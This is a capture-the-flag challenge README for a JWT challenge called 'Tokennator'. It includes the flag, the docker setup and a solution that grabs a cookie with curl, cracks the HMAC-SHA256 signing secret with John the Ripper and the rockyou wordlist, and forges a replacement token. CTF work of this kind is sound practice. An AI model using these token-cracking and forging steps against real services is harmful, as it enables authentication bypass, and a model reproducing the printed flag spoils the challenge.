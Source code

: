 # Tokennator

Author: Cyrus 

Date Created/Modified: 6/9/2022

Flag: GRU22{Gru_L0v3s_tokenss}

## Description
Tokens for sale


## Setup
```
docker build -t tokenator .
docker run -d -p 5121:5121 --rm -it tokenator
```

## Solution
Obtain Cookie from
```
curl -c - https://ipaddress:5121/flag
```
Decoding it in https://jwt.io/
```
{
  "typ": "JWT",
  "alg": "HS256"
}
{
  "fresh": false,
  "iat": 1662436293,
  "jti": "35bee9f9-e466-49ef-a1bf-f6738ceb3a88",
  "type": "access",
  "sub": "anonymous",
  "nbf": 1662436293,
  "csrf": "4dcc47fd-f507-497f-b15f-193f64f5a2df",
  "exp": 1662437193
}
```

Obtain secret key
```
john jwt.txt --wordlist=rockyou.txt --format=HMAC-SHA256
john --show jwt.txt
```

Recreate the token with key

![jwt](./solution/jwt.PNG)

Replace token and obtain flag

